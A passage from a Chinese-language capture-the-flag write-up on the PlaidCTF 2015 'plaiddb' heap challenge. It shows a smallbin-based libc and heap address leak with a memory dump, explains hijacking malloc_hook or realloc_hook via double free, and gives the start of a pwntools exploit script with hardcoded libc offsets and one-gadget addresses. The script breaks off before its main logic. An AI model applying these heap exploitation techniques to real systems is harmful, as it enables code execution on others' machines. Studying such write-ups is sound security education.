 接下来覆盖掉数据块 B 的 key，当 bin list 中只存放了一个 smallbin 时，其 fd 和 bk 域设置为 main_arena 上的地址，而地址中存放的又是 top chunk，我们利用 smallbin 来泄露 libc base 和 heap base。

```c
PUT("a", 0x88, p8(0)*0x88)
DUMP()

0x55e252387130:	0x00000000	0x00000000	0x00000271	0x00000000	-> B
0x55e252387140:	0xa04c7b78	0x00007f87	0xa04c7b78	0x00007f87	-> libc base !
0x55e252387150:	0x52387050	0x000055e2	0x00000000	0x00000000
0x55e252387160:	0x00000000	0x00000000	0x52387250	0x000055e2
```

# Exploit

有了 libc base，可以用 double free 改写 malloc hook 为 one gadget，或者将这里的 realloc hook 写为 system，这里要注意的是数据块的覆盖，有了 heap base，我们可以在覆盖的过程中不影响程序的数据块，使其保持正常存储状态而不会报错退出，[exp](https://github.com/0x3f97/pwn/blob/master/plaidctf-2015-plaiddb/exp.py) 如下：

```python
#!/usr/bin/env python

from pwn import *
import sys

context.log_level = "debug"

elf = "./datastore"

p = process(elf)

def GET(key):
    p.sendline("GET")
    p.recvline("PROMPT: Enter row key:")
    p.sendline(key)

def PUT(key, size, data):
    p.sendline("PUT")
    p.recvline("PROMPT: Enter row key:")
    p.sendline(key)
    p.recvline("PROMPT: Enter data size:")
    p.sendline(str(size))
    p.recvline("PROMPT: Enter data:")
    p.send(data)

def DUMP():
    p.sendline("DUMP")

def DEL(key):
    p.sendline("DEL")
    p.recvline("PROMPT: Enter row key:")
    p.sendline(key)

system_off = 0x45390
realloc_hook_off = 0x3c4aed
malloc_hook_off = 0x3c4aed
free_hook_off = 0x3c6795
one_gadget1 = 0x45216
one_gadget2 = 0x4526a
one_gadget3 = 0xcd0f3
one_gadget4 = 0xcd1c8
one_gadget5 = 0xf0274
one_gadget6 = 0xf0280
one_gadget7 = 0xf1117
```